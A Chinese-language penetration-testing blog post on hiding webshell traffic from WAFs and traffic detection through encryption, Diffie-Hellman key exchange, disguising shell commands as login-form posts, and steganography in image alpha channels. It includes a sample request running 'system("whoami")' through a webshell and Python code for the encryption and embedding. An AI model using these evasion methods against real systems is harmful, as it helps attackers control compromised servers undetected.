




# 浅谈几种绕过流量检测的方法

近几年做渗透测试的时候总是遇到流量特征太明显而被拦截甚至封`IP`的情况，每次都要耗半天劲去想办法，甚至尝试过改造蚁剑的编码器，奈何`NodeJS`的功底太差（甚者可以说不会）写到一半就烂尾了。于是就开始自己用`Python`写了个简单`WebShell`管理器来绕过流量检测，当然这东西都是后话，这个文章主要还是为分享一下自己的一些绕过思路。

> 前言：  
> 1、本文大概 3000+ 词，请合理分配阅读时间。  
> 2、本文中的代码为了用来演示而写的，不代表最后的成品脚本。  
> 3、此文中的所有方法以客户端和服务器中间的 WAF 不知道服务器上 Web Shell 的文件内容为前提。  
> 4、此文当中默认当 web shell 是免杀，所以不考虑 shell 被杀的问题。

- - -

**一、编码**

编码是最常见的绕过方式，像蚁剑这种就是使用编码的典型工具。常见的编码也就是`base64`、`URL`、`Hex`、`Unicode`之类的了，所以编码这块儿本文不再过多阐述。

## **二、加密**

加密也是常用的绕过流量检测的方法，比如冰蝎、哥斯拉这两个`web shell`管理工具就是使用加密来绕过流量检测（虽然说现在会被拦截了，但是刚发布的时候是还是很稳的）。常用的加密方式一般是`XOR`、`AES`等对称加密方式（这里暂时不考虑`RSA`这种非对称加密，这东西简直是`bug`一般的存在）。这种对称加密有个很大的弊端：

1.  动态的密钥会在`HTTP`包里泄露。
2.  静态密钥容易被机器学会特征。

### **1、动态的密钥会在`HTTP`包里泄露**

以冰蝎的动态密钥为例：

```text
HTTP/1.1 200 OK
Date: Tue, 16 Aug 2022 15:28:43 GMT
Server: Apache/2.4.39 (Win64) OpenSSL/1.1.1b mod_fcgid/2.3.9a mod_log_rotate/1.02
X-Powered-By: PHP/5.4.45
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Set-Cookie: PHPSESSID=s9e7ldh4sogigtbuq4u8hqnr14; path=/
Connection: close
Content-Type: text/html
Content-Length: 16

3f2a8ede95042ddc
```

这个是第一次请求时交换的密钥，之后就会以`3f2a8ede95042ddc`来进行加解密，如下面这个`POST`包



冰蝎的响应信息

用`3f2a8ede95042ddc`解密得到：



解密冰蝎的响应信息

所以通过这个例子可以看到密钥是泄露在`HTTP`包里的。

### **2、静态密钥容易被机器学会特征**

在使用一些对称加密算法会因为密码和前几个字节是固定的，导致加密后前几个字符也一直是固定的（部分编码也有这个特征），从而会被`WAF`给学会特征来拦截。以`XOR`和`AES-ECB`来举例：

```text
import random
import string
from Crypto.Cipher import AES

key = 'this_is_key!!!!!'     # 用感叹号填充到 16 个字符，方便加密
regular_data = "assert|eval(base64_decode('%s'))"  # 以冰蝎的 payload 为例

def random_char(num):
    return ''.join(random.choices(string.ascii_letters, k=num))

def xor(text: str, key: str):
    result = ''
    for i in range(max(len(text), len(key))):
      result += chr(ord(text[i % len(text)]) ^ ord(key[i % len(key)]))
    return result

def aes_encrypt(text: str, key: str):
    aes = AES.new(key.encode(), AES.MODE_ECB)
    return aes.encrypt(text.encode())

for i in range(10):
    print(xor(regular_data % random_char(10), key).encode())
for i in range(10):
    print(aes_encrypt(regular_data % random_char(16 - (len(regular_data) - 2 + 10) % 16 + 10), key))

# XOR 加密
# b'\x15\x1b\x1a\x16-\x1d\x0f:\x1d\x04\x15\tC@RDB\\6\x17:\n\x1c;\x0eM^mLl{q\x12\x10;+\nNZv'
# b'\x15\x1b\x1a\x16-\x1d\x0f:\x1d\x04\x15\tC@RDB\\6\x17:\n\x1c;\x0eM^@vk[S\x16?\x10\x18\x14NZv'
# b"\x15\x1b\x1a\x16-\x1d\x0f:\x1d\x04\x15\tC@RDB\\6\x17:\n\x1c;\x0eM^PfLIF8-;'8NZv"
# b'\x15\x1b\x1a\x16-\x1d\x0f:\x1d\x04\x15\tC@RDB\\6\x17:\n\x1c;\x0eM^plBr{\x0c\t\x05%\x18NZv'
# b"\x15\x1b\x1a\x16-\x1d\x0f:\x1d\x04\x15\tC@RDB\\6\x17:\n\x1c;\x0eM^ictci\x17\x01\x07\x19'NZv"
# b'\x15\x1b\x1a\x16-\x1d\x0f:\x1d\x04\x15\tC@RDB\\6\x17:\n\x1c;\x0eM^kljxT\x1a\x0c\x00\x0b5NZv'
# b'\x15\x1b\x1a\x16-\x1d\x0f:\x1d\x04\x15\tC@RDB\\6\x17:\n\x1c;\x0eM^I{vBH\x04\x05!\x17\x12NZv'
# b'\x15\x1b\x1a\x16-\x1d\x0f:\x1d\x04\x15\tC@RDB\\6\x17:\n\x1c;\x0eM^uJ@NR\x01+;\n\x16NZv'
# b'\x15\x1b\x1a\x16-\x1d\x0f:\x1d\x04\x15\tC@RDB\\6\x17:\n\x1c;\x0eM^gmDXl\x06 /\n-NZv'
# b'\x15\x1b\x1a\x16-\x1d\x0f:\x1d\x04\x15\tC@RDB\\6\x17:\n\x1c;\x0eM^MkvTm\x05?\x19\x17<NZv'

# AES 加密
# b'\x9c(_63\xb9\x94\xa5\x99sU\x99\\3\x8aS\xec\x8c\x03\x0c7\xd8\xe09>\xcecU\xc9\xe4;\x8a5\xaa\xc3\xe2\x08\xca\x99O\x1dG\x99W\xd8\x80vs'
# b'\x9c(_63\xb9\x94\xa5\x99sU\x99\\3\x8aS\xa5\xfa\xcef5\xeeM\xb2\x92\xf3\x02\xf6\x82>k`\x82\xd7d{\x13\x02R\xf9y\xb697\xc2\x87\x98\x12'
# b'\x9c(_63\xb9\x94\xa5\x99sU\x99\\3\x8aS\x83p\xa5\r\xda\xf3\x8b\x99{\x13V\xa8r\x9dZ\xf4&35\x03T\xab\xabx\xdcN)\x81\xbdl\x1e\x03'
# b'\x9c(_63\xb9\x94\xa5\x99sU\x99\\3\x8aS\xa3\xf1\xab\xf1Z\xb9\xc1\x98L\xc1B\x97\xeeV\x04\xda\xbfeuf\xf9\xa5T{[\x07\xc1[\xcd\xd9(\xf2'
# b'\x9c(_63\xb9\x94\xa5\x99sU\x99\\3\x8aS\xc4oh"K!\x1a\x8dW\x95\\\xfa\x8e^\xbc@Y\xae\xe8\x07\x10(nX}e\x00I\x8el_o'
# b"\x9c(_63\xb9\x94\xa5\x99sU\x99\\3\x8aSe\x97\x17G\x7f\x87\xb0\xa8\x16E|\xf3\x17\xbd\x82\x11'\x8f\xc9\xb0b\xb6\xaa\xd9\xdb\xff\xb7T\xd6\x00\xa0\xa9"
# b'\x9c(_63\xb9\x94\xa5\x99sU\x99\\3\x8aS\xee\xe3\xd4w\xafgk\xf2\xcd\x89%\x866\xb3=(\x9c\xffj\xe2\x7f\x98\xb9\x06jg]\xccS\x1f\xab\xe6'
# b"\x9c(_63\xb9\x94\xa5\x99sU\x99\\3\x8aS\x1c.a'g>\xba\x9awTG\x0b\x16\xef7\x88\xcc\x84\x0fp\xad.\x0cL;\x9d\xd0c\xfa\xccva"
# b'\x9c(_63\xb9\x94\xa5\x99sU\x99\\3\x8aSoN\x1c3\xc0H\xc0F\x9c\xf7\xfb\x96r\x99\x94\xecI\x1f{\x90\xc8\xec\x01,H(\xcc vW&\x1f'
# b'\x9c(_63\xb9\x94\xa5\x99sU\x99\\3\x8aS4\xd1\x05\xabDI\x9a0\x7f\x98^\xfd\x80`/\x81I\x0bX\x8c\xb7\x10\xc6\x10\xe5\xb3\x93r\xcb\xdfz\x0c'
```

如上面的代码所示，可以看到不论是`XOR`还是`AES`加密，因为密钥和明文的前几个字符是固定的（`AES`要求一组为`16`字节，所以最少要`16`个字符是固定的才行，当然并不是所有的模式都这样，比如`AES-CBC`就不会），最后导致的就是前几个密文每次都一样，很容易被机器学习给学会特征

### **3、怎么办呢？**

其实解决方法不难，那就是大名鼎鼎的`[Diffe-Hellman算法](https://zhuanlan.zhihu.com/p/561231807/http%3C/code%3Es://baike.baidu.com/item/Diffie-Hellman)`，这个算法一般用在密钥交换上，刚好可以用在这里。具体的算法如下图所示



Diff-Hellman 算法原理图

其中：`a`、`b`、`p`都是素数，`g`任意。用代码尝试一下

```text
import random

a = 13
b = 11
p = 7
g = random.randint(10, 20)
A = g ** a % p
B = g ** b % p
print(A ** b % p == B ** a % p)
# True
```

所以在实战环境中，服务端可以通过第一次请求获得的`g`、`p`、`A`来计算出`K`然后存到`session`当中并返回自己的`B`，这样不仅可以在后续的请求中直接使用`K`来进行加密通信而不被`WAF`发现的同时还可以随时更换密钥。

## **三、混淆**

混淆也是躲避流量检测设备的有利方法之一，其鼻祖个人认为应该是`ShadowSocksR`了，它的混淆模式方便了许多人上网。至于`SSR`具体的原理这里先开个坑，若想了解可以上网搜索。在实际环境中使用加密是为了防止中间人截获我们原始的`payload`，虽然加密也能起到绕过流量检测设备的作用，但有时候也可能会因为频繁请求而被识别为恶意流量，这时候就需要将我们加密后的（或原始的）`payload`进行混淆来防止被流量检测设备识别。

### **1、根据网站原始页面进行流量仿造**

一般网站正常情况下不是返回`HTML`和图片就是返回`JSON`和`XML`（使用`JS`进行自加密发送的情况不考虑），所以可以提前定义好请求信息和响应信息，在后续的请求中按照格式去请求。举个例子，以登录页面为例，加入登录页面有一个登录接口，`POST`了`username`和`password`，并且返回信息是一段`HTML`，则可以将`Web Shell`伪装成这个接口。则理想的请求信息应该如下：

请求信息：

```text
POST /shell.php HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Accept: text/html
Connection: close

username=admin&password=assert%7Ceval%28%27system%28%22whoami%22%29%27%29&submit=%E7%99%BB%E9%99%86
```

响应信息：

```text
HTTP/1.1 200 OK
Date: Tue, 16 Aug 2022 15:28:43 GMT
Server: Apache/2.4.39 (Win64) OpenSSL/1.1.1b mod_fcgid/2.3.9a mod_log_rotate/1.02
X-Powered-By: PHP/5.4.45
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Connection: close
Content-Type: text/html

<html>
  <head>
    <script src="/static/js/jquery.js"></script>
    <title>登录</title>
  </head>
  <body>
    <div class="form-control">
      <p class="form-error">NT AUTHORITY\SYSTEM</p>
      <form class="form-block" action="/shell.php" method="post">
        <input class="input-block" type="text" name="username" />
        <input class="input-block" type="password" name="password" />
        <input class="input-block" type="submit" name="submit" value="登录" />
      </form>
    </div>
  </body>
</html>
```

根据上面的请求信息和响应信息，不难看出`shell`的链接密码是`password`，而返回的结果是`<p>NT AUTHORITY\SYSTEM</p>`，也就是包裹在了原来本应该显示错误信息的地方，这样就做到了上面说到的仿造正常页面。

### **2、隐写**

隐写是我在`CTF`当中经常遇到的东西，可以利用其思路将`payload`的每个字符写入到图片的每个字符当中，其中需要处理的问题是如果`payload`不够长会填不满图片或者`payload`过长导致图片不够写。后面的情况可以通过更换更大的图片来变为第一种情况。

而第一种情况则需要填充，我个人偏向于先将`payload`使用`base64`编码，消除掉不可见字符，然后再使用不可见字符（如`\x00`、`\xff`等），服务端获取后直接剔除不可见字符再`base64`解码即可。

以本公众号的`logo`为例，通过`PIL`库可以将`payload`写入到图片的每个像素中的`alpha`通道中，也就是透明度。

> 一个使用 16 位存储的图片，5 位表示红色，5 位表示绿色，5 位表示蓝色，1 位是阿尔法。在这种情况下，Alpha 值只能为 0 或 1，要么透明，要么不透明；  
> 一个使用 32 位存储的图片，每 8 位表示红绿蓝和阿尔法通道。在这种情况下，Alpha 通道不止可以表示透明还是不透明，还可以表示 256 种不同的透明度。  

所以我们这里用 32 位存储的图片。代码如下：

```text
from PIL import Image

payload = 'aseert|eval(\'system("whoami")\')' + ';' * (1200 * 1000)  # 填充脏数据，只为了演示
image = 'logo.png'

img = Image.open(image)
img = img.convert('RGBA')
x, y = img.size

# 确保图片的像素点放得下 payload
assert x * y >= len(payload)

# 填充 payload 到图片像素点的数量
payload = payload + '\x00' * (x * y - len(payload))

for i in range(x):
    for j in range(y):
        color = img.getpixel((i, j))
        new_color = color[:-1] + (ord(payload[i * x + j]), )
        img.putpixel((i, j), new_color)
img.show()
img.save('anioner.png')
```

这个代码即可做到将字符串隐写到图片当中，效果如下：



右侧为原始图片，左侧为隐写后的图片

如何解密呢？那就是反向操作把`RGBA`取出来然后把`A`转成字符串即可。

## **总结**

实际上，上面的那些绕过方式还是有问题的，这里列举一些各自的优缺点。

1.  `Diffe-Hellman`算法  
    

1.  优点：  
    1、能够有效防止中间人获取到密钥从而解密流量  
    
2.  缺点：  
    1、那些素数过小时会导致很容易就被爆破出来密钥  
    2、如果素数过大（哪怕是 3 位整数）会导致整型溢出而计算错误  
    3、需要额外一次请求来获取密钥，增加了特征  
    

3.  页面仿造  
    

1.  优点：  
    1、增加判断难度，尤其是在配合了加密后  
    2、管理员的溯源难度增加那么一丢丢  
    
2.  缺点：  
    1、过多的增加了原来的数据大小，网络环境差时会导致传输很慢的问题  
    2、若原始的`payload`未进行加密或编码依然会被检测出特征  
    

5.  图片隐写  
    

1.  优点：  
    1、无法肉眼判断  
    2、很少有`WAF`检测图片  
    3、随时可以更换隐写载体，如视频、音频等  
    
2.  缺点：  
    1、数据长度较原始`payload`增大了很多  
    2、频繁的`POST`图片也是一个特征  
    3、容易被提取，需要加密

其实绕过流量检测设备的方法很多，上面列举的只是我自己一堆想法中的几个，个人认为其中的`Diffe-Hellman`算法在解决了额外的一次请求之后应该是很无敌的存在。

- - -
